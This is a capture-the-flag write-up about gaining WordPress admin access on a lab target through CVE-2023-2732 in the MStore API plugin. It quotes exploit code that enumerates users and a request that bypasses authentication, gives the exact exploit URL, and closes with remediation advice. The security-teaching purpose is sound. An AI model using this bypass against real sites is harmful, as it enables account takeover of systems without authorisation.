


# CTF Week #3 (Wordpress CVE)

## Recognition

To begin, we accessed the target at http://143.47.40.175:5001, navigated to the `Shop` section, and selected `WordPress Hosting`. From there, we reviewed the `Additional Information` at the following URL: http://143.47.40.175:5001/product/wordpress-hosting/.
This information about the software and versions already gave us a start for the research phase.

<p align="center" justify="center">
  
</p>

## CVE Research

Next, we conducted a vulnerability search via the [Search CVE List](https://cve.mitre.org/cve/search_cve_list.html) where the search query was composed of relevant versions and plugins: `Wordpress 5.8.1 MStore API 3.9.0 WooCommerce 5.7.1 Booster for WooCommerce 5.4.4`.

This search yielded four potential CVEs:

<p align="center" justify="center">
  
</p>

## CVE Selection

The goal was to exploit a vulnerability that would allow administrative access. After analysis, the most applicable CVEs for this purpose were: `CVE-2023-2734`, `CVE-2023-2733`, and `CVE-2023-2732`.

Since we needed to submit the vulnerability code as the first CTF flag, we got the confirmation that the vulnerability was indeed `CVE-2023-2732`.

## Finding an Exploit

While searching for exploits, we discovered a GitHub repository containing an exploit for `CVE-2023-2732`, available [here](https://github.com/RandomRobbieBF/CVE-2023-2732).

Although an attempt to execute the provided script resulted in errors, we were more interested in analyzing the source code, which led us to identify two key functions:

1. **fetch_usernames_rest_api**: This function retrieves the list of WordPress users via the REST API.

    ```py
    def fetch_usernames_rest_api(wordpress_url):
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
        response = session.get(f"{wordpress_url}/wp-json/wp/v2/users", headers=headers,verify=False,timeout=30)
        ...
    ```
2. **sendem**: This function sends a request that exploits the vulnerability to add administrative permissions for a specified user.
    ```py
    def sendem(user_id, username):
        # Set up the request headers
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
        # Send the request
        response = session.get(""+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"", headers=headers,verify=False,timeout=30)
        ...
    ```

The `fetch_usernames_rest_api` function allows us to extract user IDs, and `sendem` facilitates privilege escalation by exploiting the identified vulnerability.

## Exploiting the Vulnerability

1. We started by accessing http://143.47.40.175:5001/wp-json/wp/v2/users and retrieving the list of users as a JSON response:
<p align="center" justify="center">
  
</p>

2. From the response, we identified that the Administrator's user ID is `1`.
3. Using the `sendem` function, we crafted a URL to exploit the vulnerability by entering the following into the browser: http://143.47.40.175:5001/wp-json/wp/v2/add-listing?id=1.  
When trying to access this URL, the browser will start to load for a long time and, analyzing the requests, we can see that the same GET request to the URL is being executed in a loop, ending in a message saying "The page isn’t redirecting properly".  
However, the response to these requests come with cookies  with the admin login information, effectively granting administrative permissions to our session.
4. To find the flag, we searched for common URL patterns used for the WordPress admin dashboard and identified http://143.47.40.175:5001/wp-admin/index.php as a potential entry point.  
Upon accessing this URL, we successfully reached the admin dashboard. From there, we navigated to the **Posts** section, where we found a post titled "Message for our Employers", which contained the second CTF flag.

## Vulnerability Remediation

This vulnerability is caused by the MStore API plugin for WordPress not performing sufficient verification on the user being supplied during the add listing REST API request, for versions up to, and including, 3.9.2, as stated in [Wordfence](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/mstore-api/mstore-api-392-authentication-bypass). For this reason, the solution is to update the plugin to version 3.9.3, or a newer patched version.